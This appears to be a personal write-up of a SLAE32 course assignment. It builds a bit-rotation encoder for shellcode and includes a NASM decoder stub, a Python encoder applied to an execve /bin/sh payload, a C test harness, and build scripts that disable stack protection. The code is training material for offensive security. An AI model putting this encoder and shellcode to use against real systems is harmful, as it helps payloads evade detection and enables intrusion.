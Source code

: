 For my fourth assignment in the SLAE32 course, I created a custom Rotation Encoder. 
How this works is to encode the payload, it rotates every bit to the left by one. If the greatest bit (valued 128) falls off the left, it wraps around to the lowest bit (valued 1).
Example:

1 0 0 0 1 0 1 0 

0 0 0 1 0 1 0 1

To decode, all the bits are rotated to the right by one. If there is a low bit, it is moved to the highest bit.

0 0 0 1 0 1 0 1

1 0 0 0 1 0 1 0 


To quickly grab the hex from the shellcode I used the method shown in the SLAE course. To make it easier, I added it to a shellscript.
```bash
#!/bin/bash
OBJFILE=$1
objdump -d $(pwd)/${1} | grep '[0-9a-f]:' | grep -v 'file'\
| cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' \
| sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s \
| sed 's/^/"/' | sed 's/$/"/g'
```

```assembly
; Filename: rotateRightDecoder.nasm
; Author:  Bobby Cooke

global _start

section .text
_start:
        jmp short call_decoder

decoder:
        pop esi

decode:
        ror byte [esi], 1
        cmp byte [esi], 0xFF
        je Shellcode
        inc esi
        jmp short decode
        
call_decoder:
        call decoder
        Shellcode: db 0x62,0x81,0xa0,0xd0,0x5e,0x5e,0xe6,0xd0,0xd0,0x5e,0xc4,0xd2,0xdc,0x13,0xc7,0xa0,0x13,0xc5,0xa6,0x13,0xc3,0x61,0x16,0x9b,0x01,0xff
```

To compile my Assembly code I used the NASM Compiler with these commands. After creating the object file with NASM, I linked the object file using `ld`.
```bash
nasm -f elf32 rotateRightDecoder.nasm -o rotateRightDecoder.o
ld -o rotateRightDecoder rotateRightDecoder.o
```



To encode the payload I created a python script. This takes all the bytes of the shellcode and rotates them to the left once. 
If there is a most significant byte, it wraps around. In other words if the 128 value bit is set, it is moved to the 1 value bit.
The new encoded shellcode is output in both the '\x' format and the '0x, ' format.
```python
#!/usr/bin/python
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded1 = ""
encoded2 = ""

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
    if x > 127:
        x = x - 128             # Remove the left-most bit
        x = x << 1              # Shift to the left 1
        x += 1                  # Add 1, to complete the rotate
        encoded1 += '\\x'
        encoded1 += '%02x' %x   # Add the rotated left hex to string 
        encoded2 += '0x'
        encoded2 += '%02x,' %x  # Add the rotated left hex to string 
    else:
        encoded1 += '\\x'       # No leftmost bit, just rotate
        encoded1 += '%02x' %(x << 1)
        encoded2 += '0x'        # No leftmost bit, just rotate
        encoded2 += '%02x,' %(x << 1)
    
print encoded1
print encoded2
print 'Len: %d' % len(bytearray(shellcode))
```

I tested the shellcode using the C program shown in the SLAE course.
After extracting the shellcode using the above bash script, I added it to the C program as the `code[]` array.
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x0b\x5e\xd0\x0e\x80\x3e\xff\x74\x08\x46\xeb\xf6\xe8"
"\xf0\xff\xff\xff\x62\x81\xa0\xd0\x5e\x5e\xe6\xd0\xd0\x5e"
"\xc4\xd2\xdc\x13\xc7\xa0\x13\xc5\xa6\x13\xc3\x61\x16\x9b\x01\xff";
main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
To speed up compilation while developing my custom rotation encoder, I created a simple bash script to automate the process.
```bash
#!/bin/bash
SHELLCODE=$1
gcc -fno-stack-protector -z execstack -o shellcode $(pwd)/${SHELLCODE}
```
